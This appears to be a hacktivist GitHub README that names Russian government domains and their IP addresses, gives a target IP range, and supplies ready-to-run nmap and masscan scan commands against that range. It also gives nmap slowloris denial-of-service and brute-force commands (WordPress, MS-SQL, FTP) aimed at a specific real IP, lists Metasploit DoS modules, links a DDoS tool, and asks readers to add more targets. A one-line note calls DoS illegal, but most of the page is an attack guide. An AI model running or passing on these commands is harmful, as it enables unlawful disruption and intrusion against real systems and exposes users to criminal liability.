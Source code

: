 # pro-ukraine

## Global Threat:

![threat](https://github.com/vikanet/pro-ukraine/blob/main/pro-ukraine.png?raw=true)

## There are heros on both sides of the border:

![heros](https://github.com/vikanet/pro-ukraine/blob/main/heros.png?raw=true)

## The invasion of Ukraine by Russian troops is a threat to the whole world safety.

My goal is to share news, tools, and ideais that one can use to make a point and step up agains this war.

## There are known Russian government controlled domains, websites, services... under tha following domains:

```
government.ru
duma.gov.ru
kremlin.ru
gov.ru
```

## Anyone can use a tool like `dig` or `nslookup` to check what servers the domains are pointing to:

```
# dig government.ru

;; ANSWER SECTION:
government.ru.          6385    IN      A       95.173.136.168
government.ru.          6385    IN      A       95.173.136.162
government.ru.          6385    IN      A       95.173.136.163
```
```
# dig duma.gov.ru

;; ANSWER SECTION:
duma.gov.ru.            1800    IN      A       95.173.130.41
duma.gov.ru.            1800    IN      A       95.173.130.42
```
```
# dig kremlin.ru

;; ANSWER SECTION:
kremlin.ru.             60      IN      A       95.173.136.71
kremlin.ru.             60      IN      A       95.173.136.72
kremlin.ru.             60      IN      A       95.173.136.70
```
```
# dig gov.ru

;; ANSWER SECTION:
gov.ru.                 1800    IN      A       95.173.128.90
```

**NOTE:** the domains might have DNS load balancers that will share the load over many server and possibly geographically assing the closest server to serve each request. Which means, the IP might not be in Russian territory but in a third-party service provider (like a CDN) somewhere else.

## It is important to ALWAYS confirm the IP address of the target really belongs to the Russian government or not:

There are many sources of this kind of information, for example https://www.nirsoft.net/countryip/ru.html.

Just look for the IP target in the IP ranges assigned to the Russian government:

```
95.173.128.0 | 95.173.159.255 | The Federal Guard Service of the Russian Federation
```

Another great tool is https://ipgeolocation.io/.

```
"ip": 95.173.128.90
"country_name": Russia
"state_prov": Central Federal District
"city": Moscow
"latitude": 55.75501
"longitude": 37.63183
"time_zone": Europe/Moscow
"isp": The Federal Guard Service of the Russian Federation
```

## How to know what ports are open in each target IP exposed to the Internet? Port-scan!

```
nmap -sV -sC -oN scan1.output 95.173.128-159.0-255
nmap -F -oN scan2.output 95.173.128-159.0-255
nmap -T5 -p 80,443 -oN scan3.output 95.173.128-159.0-255
sudo nmap -O -oN scan4.output 95.173.128-159.0-255
sudo masscan 95.173.128.0/19 -p0-443 -oX scan5.output
sudo masscan 95.173.128.0/19 -p443-1000 -oX scan6.output
nmap -Pn --script vuln -oN scan7.output 95.173.128-159.0-255
nmap -sL -oN scan8.output 95.173.128-159.0-255
```

**NOTE:** the output files of the scans abore are in this repo. Skip many hours of waiting... See also **scans.summary** file with the most relevant open ports by IP.

## What tools the Hacktivists are possibly using to sabotage Russian targets?

Hacktivists are attacking the Russian government sites trying to make them offline and to creating a huge amount of traffic in their networks. It is called Dennial-of-Server, or DoS for short.

Pretty much anyone can run a DoS tool to make a particular IP go off line due to too many requests. See a small list of popular tools for DoS attacks:

Metasploit Modules

```
auxiliary/dos/tcp/synflood (Flood the server with SYN packets)
auxiliary/dos/http/slowloris.py (Makes lots of HTTP requests and sends headers periodically to keep the connections open)
auxiliary/dos/http/apache_range_dos.rb (Causes high memory and CPU consumption on Apache 2.0.x through 2.0.64, and 2.2.x through 2.2.19)
auxiliary/dos/http/gzip_bomb_dos.rb (Generates and hosts a 10MB single-round gzip file that decompresses to 10GB)
auxiliary/dos/http/hashcollision_dos.rb (Can cause a web server parsing the POST parameters issued with a request into a hash table to consume hours of CPU with a single HTTP request)
auxiliary/dos/ssl/dtls_changecipherspec.rb (Attack against Datagram TLS in OpenSSL version 0.9.8i and earlier)
auxiliary/dos/ntp/ntpd_reserved_dos.rb (Created an infinite looping of NTP requests between two NTP servers)
auxiliary/dos/dns/bind_tsig.rb (Can crash a DNS server if it is vulnerable to CVE-2016-2776)
```

NMAP

```
nmap 95.173.136.168 --max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true
nmap -sV --script http-wordpress-brute --script-args ‘userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true’ 95.173.136.168
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 95.173.136.168
nmap --script ftp-brute -p 21 95.173.136.168
```

**NOTE:** DoS and DDoS are ilegal pactices in most if not all countries. Do not attempt to do it, it is a crime!

## How do the Hacktivists are able to perform Denial-of-Service attacks without being caught?

The most common way to become anonymous on the internet is by using a VPN or the Tor Network but Hacktivists oftenly use a much bigger tools: Bot Nets

By distributing it increases the demaging power over thousands or even millions of source addresses, making it very difficul to defent against.

Check out the following tool https://github.com/alexmon1989/russia_ddos

## What attack vector a Hacktivist uses agains a target?

Reconaissence is the first step. A simple portscan can reveal what services are behind an IP or a range of IPs. Followed by a more sofisticated fingerprinting to reveal what applications and its versions are behind each exposed (open) port.

## Help needed!

Feel free to suggest new topics, increase the lists of targets, alternative tools, etc.
